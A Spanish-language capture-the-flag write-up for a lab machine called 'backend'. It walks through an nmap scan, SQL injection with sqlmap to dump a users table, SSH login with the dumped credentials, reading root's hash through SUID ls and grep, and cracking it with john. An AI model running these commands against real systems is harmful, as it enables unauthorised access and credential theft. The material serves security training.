










# Máquina backend

---

Dificultad -> Fácil

---

Empezamos con un nmap para ver puertos y servicios

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)
|_  256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: test page
|_http-server-header: Apache/2.4.61 (Debian)
```

Vemos una web y un ssh, primero entro a la web de apache dentro de la web encuentro un botón que te lleva a un login `/login.php` 



Probando poniendo un solo `'` de usuario y contraseña vemos que nos da un error de mariaDB asi que es vulnerable a SQLInjection, asi que uso `sqlmap` para ver las bases de datos:

```shell
sqlmap -u "http://172.17.0.2/login.html" --batch --forms --dbs
```

Con esto veo que bases de datos existen



```shell
sqlmap -u "http://172.17.0.2/login.html" --batch --forms -D users --tables
```

Ahora con esto miro las tablas de la base de datos `users`



```shell
sqlmap -u "http://172.17.0.2/login.html" --batch --forms -D users -T usuarios --dump
```

Y ahora dumpeo la tabla `usuarios`



Pruebo las credenciales en `/login.html` pero todas me llevan al index, asi que las pruebo en ssh y con las credenciales de `pepe : P123pepe3456P` consigo entrar, hago un `sudo -l` como de constumbre pero no existe sudo



Busco archivos con permiso SUID y enceuntro `ls` y `grep` 

```sh
find / -perm -4000 2>/dev/null
```



Teniendo `ls` y `grep` puedo listar carpetas protegidas y leer archivos protegidos, miro `ls /root` y encuentro lo siguiente



Un hash, con `grep '' /root/pass.hash` lo leo y veo el hash



Lo copio a mi máquina y con john lo intento desencriptar, despues de probar varios formatos, es un `Raw-MD5`, asi que lo decodifico con

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 
```



Como no hay mas usuarios, pruebo la clave para root



Y somos root :)
